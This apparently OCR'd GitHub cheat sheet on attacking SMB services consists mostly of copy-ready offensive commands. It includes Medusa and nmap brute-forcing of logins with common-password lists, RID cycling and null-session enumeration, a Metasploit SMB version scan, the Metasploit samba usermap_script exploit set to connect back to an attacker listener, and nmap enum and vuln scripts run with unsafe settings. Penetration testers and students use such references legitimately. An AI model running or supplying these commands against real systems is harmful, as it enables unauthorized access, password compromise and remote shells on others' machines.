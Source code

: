#### Brute force login

```
medusa -h $ip -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt $ip  -vvvv
```

### RID

Rid Enum is a RID cycling attack that attempts to enumerate user accounts through null sessions and the SID to RID enum. If you specify a password file, it will automatically attempt to brute force the user accounts when its finished enumerating.

```
https://tools.kali.org/maintaining-access/ridenum
```

### Null Session

A null SMB session can be used to gather passwords and useful information from SMB 1 by looking in shares that are not password protected for interesting files. Windows NT/2000 XP default settings allow this. Windows 2003/XP SP2 SMB this behaviour is disabled.

#### Null session and extract information.

```
nbtscan -r $ip
```

#### Version

```
msfconsole; use auxiliary/scanner/smb/smb_version; set RHOSTS $ip; run
```

MultiExploit

```
msfconsole; use exploit/multi/samba/usermap_script; set lhost 10.10.14.x; set rhost $ip; run
```

#### Show all nmap SMB scripts

```
ls -ls /usr/share/nmap/scripts/smb*
```

Quick enum:

```
nmap --script=smb-enum* --script-args=unsafe=1 -T5 $ip
```

Quick vuln scan:

```
nmap --script=smb-vuln* --script-args=unsafe=1 -T5 $ip
```
